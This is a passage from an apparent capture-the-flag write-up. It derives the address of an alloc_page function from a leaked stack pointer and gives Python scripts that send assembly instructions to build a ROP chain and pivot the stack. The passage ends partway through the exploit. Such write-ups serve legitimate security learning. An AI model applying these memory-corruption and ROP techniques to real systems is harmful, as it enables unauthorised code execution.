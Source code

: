 We can also see that there is a pointer to `0x55c78c5e6aa3` or 0xaa3 (an address without rebasing) on the stack, which is very close to `alloc_page` function's address - 0x9f0:
```
03:0018│      0x7fff3c67a988 —▸ 0x55c78c5e6aa3 (read_n+35) ◂— mov    byte ptr [rbx - 1], al
```

This pointer is stored in 0x7fff3c67a988 which is the same as RBP-72 (as `0x7fff3c67a9d0-0x7fff3c67a988=72`). We can use that offset (RBP-72) to copy the pointer and change that copy so that it would point to `alloc_page`. To do that we can modify our script to:

```python
instructions = [
    'lea r14, [rbp-72]',    # load address of pointer to 0xaa3 to r14
    'mov r15, [r14]',       # copy value under the pointer (0xaa3) to r15
    'mov r14, r15',         # copy the value to r14, both r14 and r15 hold 0xaa3
    'lea r15, [r14-116]',   # r15 = r14-116, r15 is now 0xaa3 - 116 = 0xa2f
    'mov r14, r15',         # r14 = r15,     r14 is now 0xa2f
    'lea r15, [r14-63]',    # r15 = r14-63,  r15 is now 0xa2f -  63 = 0x9f0, r15 now points to alloc_page
    'mov [r13], r15',       # put alloc_page addr on the stack

    # Below line is here just for testing purposes
    # It changes RSP so that we start ROP chain leaving do_test function
    'mov rsp, r13'
]

for instr in  instructions:
    send_instr(instr)

p.interactive()
```

After that a problem occured. The `mmap` result from `alloc_page` is returned in RAX and I couldn't find gadgets to move it to another register. I have decided to check if there is any relation between two `mmap`'ed addresses and it turned out that the second page is exactly 4096 bytes below the first one.
This relation was persistent between different local executions both with and without ASLR ([Address Space Layout Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization)). I was not sure whether it would be true on the organizer's server but it turned out it was.

Since I already had a pointer to the first `mmap`'ed address on the stack:
```
04:0020| 0x7fff3c67a990 —▸ 0x7fb649f0a000 ◂— mov    ecx, 0x1000
```

I modified the script to calculate the address of the second memory page, put it on the stack and jump back to `main`:
```python
instructions = [
    'lea r14, [rbp-72]',    # load address of pointer to 0xaa3 to r14
    'mov r15, [r14]',       # copy value under the pointer (0xaa3) to r15
    'mov r14, r15',         # copy the value to r14, both r14 and r15 hold 0xaa3
    'lea r15, [r14-116]',   # r15 = r14-116, r15 is now 0xaa3 - 116 = 0xa2f
    'mov r14, r15',         # r14 = r15,     r14 is now 0xa2f
    'lea r15, [r14-63]',    # r15 = r14-63,  r15 is now 0xa2f -  63 = 0x9f0, r15 now points to alloc_page
    'mov [r13], r15',       # put alloc_page addr on the stack

    # Below line is here just for testing purposes
    # It changes RSP so that we start ROP chain leaving do_test function
    #'mov rsp, r13'

    # Grabs mmap'ed memory page address to r15
    'lea r14, [rbp-64]',    # load address of pointer to mmap'ed page to r14
    'mov r15, [r14]',       # copy value under the pointer to r15
]

```